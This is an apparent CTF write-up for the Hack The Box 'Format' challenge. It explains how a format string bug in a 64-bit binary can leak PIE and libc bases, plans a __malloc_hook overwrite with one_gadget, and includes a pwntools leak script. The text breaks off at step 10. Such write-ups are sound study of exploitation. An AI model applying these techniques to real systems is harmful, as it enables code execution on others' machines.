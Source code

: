 # Format
## DESCRIPTION:
Can you hear the echo?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/format_htb]
└─$ file format
format: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5d38e04d29b4aae722164869f3151cea776ce91c, for GNU/Linux 3.2.0, not stripped
```

> BINARY PROTECTIONS

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/format_htb]
└─$ pwn checksec format                                     
[*] '/home/brandy/Downloads/format_htb/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

2. After decompiled the binary, it seems we can leak - calculate the piebase and libc base using the format strings vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8e3f2da2-36ef-481e-b471-b432a1dafa77)


3. But there is no BOF, hence we can't do ret2libc here. Also, we can't overwrite the Global Offset Table because RELRO is full.
4. So how to get RCE? We still can utilize `__malloc_hook`.

#### MALLOC HOOK

- **__malloc_hook** is a hook function which is called whenever malloc is called.
- We can use one_gadget and we can trigger them by sending big buffer.
- printf() will use malloc to allocate memory after we sent big buffer.


5. Let's grab the piebase and potential libc.

> Actually there is many potential libc address, but i grabbed the 1st one.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd8097b8-44e8-4e63-8058-8765319f4a73)


> Many potential pie we can use to calculate the base.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f41313c3-13fb-4455-8ceb-aa392f095f1f)


#### NOTES: In this writeup i won't explain again how to calculate the libc base and piebase again, i've explained this many times, go check my other writeups for explaination.


6. After calculating the piebase and libc base, before overwriting **__malloc_hook** with **one_gadget**, we need to identify the libc used at the remote server so we won't work twice.
7. Well, what I did to identify the remote server is kind of lucky, I guess; maybe there are many ways that are more straightforward.

---

### FLOW

- Do breakrva at the printf() and run the script using GDB args.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b52c71f9-3ab8-4bfc-95f4-5c5273816744)


> SCRIPT Pt.1

```py
from pwn import *
import os
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

## 0x11f1
gdbscript = '''
init-pwndbg
breakrva 0x11f1
continue
'''.format(**locals())

exe = './format'
elf = context.binary = ELF(exe, checksec=True)
# context.log_level = 'DEBUG'
# context.log_level = 'ERROR'
context.log_level = 'INFO'

library = '/lib/x86_64-linux-gnu/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

# # LEAKING POTENTIAL LIBC BASE
sh = start()
for i in range(200):
    sh.sendline('%{}$p'.format(i))
    get = sh.recvline().strip()
    print(str(i), ':', get)
```

> We got _IO_2_1_stdin_

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/23018b14-617e-4abf-aaf3-e6df41379ce2)


- But when i used the leaked **_IO_2_1_stdin_** at the remote server and check it on blukat, it did not found any libc relevant to this.
- Anyway, at the end i got result after sending the **_IO_2_1_stderr_**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/81201f90-1a27-49a4-9ac5-3f6b98aef802)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0491790b-3959-4d42-ab67-f322936d1350)


- But, we need to know the actual libc used, to minimize the probability i used the leaked **_IO_file_jumps**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d4ddadd0-092b-405c-8ce1-b5ce1ad6e076)


> AT REMOTE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2562483f-d25e-4ca6-8bab-b40ef62fdfe1)


> RESULT at libc blukat

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3c959958-8de6-425f-b075-a746bc94cfd5)


- It's better than before, but we need to find the correct one. Notice, we can ignore the first seven (because they are for 32 bit).
- Our interest are these:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f46a959e-d70d-4908-9a58-2c2b709aa02a)


- So this is where my way gets unintended, I didn't leak the printf@got or fgets@got to get more accurate libc result, I immediately tried the `libc6_2.27-3ubuntu1_amd64 `. So what comes to my mind, if the `libc6_2.27-3ubuntu1_amd64` does not work, i will use the `libc6_2.27-3ubuntu1.2_amd64 ` and so on.

---

8. Download the libc and do pwninit.


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4c04a585-0e6e-4fba-8b11-e5b94ae73d89)


9. Great, let's grab one_gadget and __malloc_hook.

> ONE_GADGET --> try the 2nd one.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd519df9-6320-47bd-b6e2-1d2b956849b6)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3daf400f-abd1-4894-adb4-3c73aeee7a87)


10. 






